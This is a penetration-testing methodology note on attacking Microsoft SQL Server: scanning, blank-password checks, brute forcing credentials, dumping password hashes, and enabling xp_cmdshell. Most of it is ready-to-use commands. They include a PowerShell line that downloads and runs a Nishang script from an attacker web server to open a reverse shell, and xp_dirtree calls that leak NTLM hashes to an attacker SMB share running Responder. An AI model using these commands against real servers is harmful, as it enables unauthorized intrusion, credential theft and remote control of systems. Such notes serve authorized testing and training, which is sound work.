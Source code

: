 # MSSQL - Methodology

### Network scan

`nmap` can be used to scan the network for exposed MSSQL databases:

```
nmap -v -p 1433 -sV -sC -oA nmap_smb <RANGE | CIDR>
```

### Service recon

The `nmap` `ms-sql-info.nse` script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The `metasploit` `auxiliary/scanner/mssql/mssql_ping` module attempts to
retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the `nmap` nse script
`ms-sql-empty-password.nse` can be used to quickly try to connect using the
"sa" account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The `Metasploit` `auxiliary/scanner/mssql/mssql_login` module can be used to
brute force credentials for the service. The "BLANK_PASSWORDS" option is worth
setting to "true".  

The `patator` tool can be used as well to brute force credentials on the
service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The `sqsh` Linux utility as well as the `impacket` Python script
`mssqlclient.py` can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>

# -db is optional and defaults to "None"
mssqlclient.py -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>

# Windows authentication using the provided credentials
mssqlclient.py -windows-auth -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>

# Kerberos authentication
mssqlclient.py -k -dc-ip <DC_IP> -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>
```

The `DBeaver` GUI tool can be used to simply access the database content
without knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the `nmap`
nse script `ms-sql-dump-hashes.nse` can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
`John-the-ripper`.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function. The *xp_cmdshell* function is deactivated by default
from SQL Server 2000 and upwards and needs to be activated.  

Note that the Windows process spawned by `xp_cmdshell` has the same security
rights as the SQL Server service account running the service.

The following query can be used to manually activate it given the account used
has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The SQL queries above can be made using the `sqsh` Linux utility as well as
the `impacket` Python script `mssqlclient.py`. The `mssqlclient.py` client
integrates the `enable_xp_cmdshell` and `xp_cmdshell` commands to automatically
enable xp_cmdshell and execute command through it.

```
# mssqlclient.py ...
SQL> enable_xp_cmdshell
SQL> xp_cmdshell <CMD>
SQL> sp_start_job <CMD>
```

In order to execute command through a system shell, the `PowerShell` `Nishang`'s
`Invoke-PowerShellTcp.ps1` can be used.

Once a web server hosting the `PowerShell` script and a listener are up and
running, the following commands can be used to download and execute the script
through the MS SQL service:

```
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>;"

# Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port> must be added at the end of the script
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1')"
```

The `Metasploit` module `exploit/windows/mssql/mssql_payload` automates the
tasks above to deploy a payload, such as a reverse `meterpreter`, on the server
through the MS SQL service.

### NTLM stealer

The (undocumented) `xp_dirtree`, `xp_fileexist` and `xp_getfiledetails` SQL
stored procedures can be used to access files on remote systems over `SMB`.
The account running the SQL service, be it a local or domain joined account,
will authenticate to the `SMB` share by completing a `Net-NTLMv1` or
`Net-NTLMv2` challenge.

This response can be offline cracked to retrieve the password of the SQL
service account. The authentication challenge can also be relayed in order
to directly execute commands as the account running the SQL service through the
`SMB` service of a targeted server. The targeted server must expose a `SMB`
service that does not require message signing and the SQL service account must
have local administrator privileges on the server. For more information on how
to conduct this attack, refer to the `Active Directory - NTLM Relaying` note.   

Depending on the permissions configured to use the procedures, a non privileged
user may be able to execute them. Usually, the account connecting to the
database should only require the `PUBLIC` role to execute the procedures.

To capture the `Net-NTLM` response, a `SMB` share service or `Responder` must
be started:

```
smbserver.py -smb2support <SHARE_NAME> /tmp

Responder.py -I <INTERFACE>
```

Then, from a connected SQL interpreter, the methods can be used to make a
connection to the `SMB` service:

```
# METHOD = xp_dirtree / xp_fileexist / xp_getfiledetails
<METHOD> '\\<HOSTNAME | IP>\Whatever_Share';
exec <METHOD> '\\<HOSTNAME | IP>\Whatever_Share';
exec <METHOD> '\\<HOSTNAME | IP>\Whatever_Share',1,1;
exec master.dbo.<METHOD> '\\<HOSTNAME | IP>\Whatever_Share';
```

The `metasploit` module `auxiliary/admin/mssql/mssql_ntlm_stealer` and the
`msdat` `Python` script can be used to try the three methods above
automatically:

```
# Only tries xp_dirtree and xp_fileexist
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer

msdat smbauthcapture -v -s <RHOST> -p <RPORT> -D <DB_NAME> -U <USERNAME> -P '<PASSWORD>' --capture <LHOST_SMB_SERVER>
```
